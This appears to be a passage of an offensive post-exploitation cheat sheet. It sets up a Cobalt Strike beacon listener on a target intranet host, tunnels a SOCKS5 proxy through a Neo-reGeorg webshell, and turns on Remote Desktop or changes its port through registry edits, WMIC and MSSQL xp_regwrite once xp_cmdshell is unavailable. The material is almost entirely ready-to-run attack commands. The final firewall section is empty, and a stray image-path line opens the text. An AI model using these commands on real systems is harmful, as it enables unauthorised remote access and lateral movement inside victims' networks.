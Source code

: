 ```
cobaltstrike new beacon listen:
HTTP Hosts: targetserver intranet ip
HTTP Port: 60020
```
## Neo-reGeorg
https://github.com/L-codes/Neo-reGeorg
```
python neoreg.py generate -k password
python neoreg.py -k password -u http://xx/tunnel.php -l 0.0.0.0 -p 4444
Starting SOCKS5 server [0.0.0.0:4444]
```
# RDP
check rdp status 0x0:ON 0x1:OFF
```
REG query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```
0xd3d 3389
```
REG query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds" /v  PortNumber
REG query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber
```
tasklist,netstat
```
tasklist /svc | findstr "TermService"
netstat -ano | findstr "3389"
```
REG open rdp 0:ON 1:OFF
```
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
REG close rdp 0:ON 1:OFF
```
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```
modify 3389to3000
```
REG ADD "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v "PortNumber" /t REG_DWORD /d 3000 /f
```

WMIC open rdp (must winmgmt service start)
```
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```
MSSQL xp_regwrite open rdp(xp_cmdshell disabled/delete)
xp_regread check rdp
```
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server' ,'fDenyTSConnections'
```
xp_regread search rdp port
```
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp','PortNumber'
```
xp_regwrite open rdp 0:ON 1:OFF
```
exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;
```
firewall allows rdp add rule
```
```